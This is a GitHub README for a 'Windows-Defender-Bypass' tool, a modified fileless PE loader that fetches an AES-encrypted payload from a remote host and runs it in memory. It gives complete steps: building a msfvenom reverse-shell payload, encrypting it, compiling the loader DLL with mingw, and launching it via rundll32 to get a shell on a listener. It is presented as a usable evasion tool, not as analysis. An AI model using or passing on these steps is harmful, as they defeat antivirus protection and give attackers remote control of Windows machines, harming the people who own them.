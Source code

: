 # Windows-Defender-Bypass

Tested on 31-07-2023.  [Defender may detect it at the time of you using this. Feel free to do any modifications.]
This is a modified version of @TheD1rkMtr's FilelessPELoader program. The link to the original repo is https://github.com/TheD1rkMtr/FilelessPELoader/. It works by loading Remote AES Encrypted PE in memory, decrypts it and run it.

STEPS TO REPRODUCE:
1. Clone the repository.
2. Edit the IP , port in FilelessPELoader.cpp script.
3. Use the aes.py script to create a encrypted bin files.
   In the POC, I generated the reverse shell payload using msfvenom and encrypted it using aes.py. The synta for the same is
   ```msfvenom -p windows/x64/shell_reverse_tcp lhost=IP lport=PORT -f exe -o shell.exe```

    ```python3 aes.py shell.exe```
   Successfull execution of the above command will result two files named cipher.bin and key.bin.

5. Use the following command to compile FilelessPELoader.cpp to a dll.
   ```x86_64-w64-mingw32-g++ FilelessPELoader.cpp -l winhttp -shared --static -o a.dll```

5.Once dll is created, start the web server and your listener.
6. Transfer the dll to a windows machine.

7. Open command prompt and run the following command.

    ```rundll32 a.dll, DllRegistryServer```

9. After a second, You will see the connection in your terminal where you started your listener.
